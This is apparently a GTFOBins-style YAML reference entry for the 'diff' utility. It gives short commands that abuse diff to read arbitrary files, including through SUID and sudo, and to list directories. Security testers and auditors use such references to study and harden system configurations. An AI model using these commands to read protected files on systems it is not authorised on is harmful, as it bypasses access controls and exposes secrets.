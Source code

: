 ```yaml
---
functions:
  file-read:
    - code: |
        LFILE=file_to_read
        diff --line-format=%L /dev/null $LFILE
  suid:
    - code: |
        LFILE=file_to_read
        ./diff --line-format=%L /dev/null $LFILE
  sudo:
    - code: |
        LFILE=file_to_read
        sudo diff --line-format=%L /dev/null $LFILE
  directory-listing:
    - code: |
        LFOLDER=folder_to_list
        diff --recursive /any/folder $LFOLDER | grep $LFOLDER
---
```

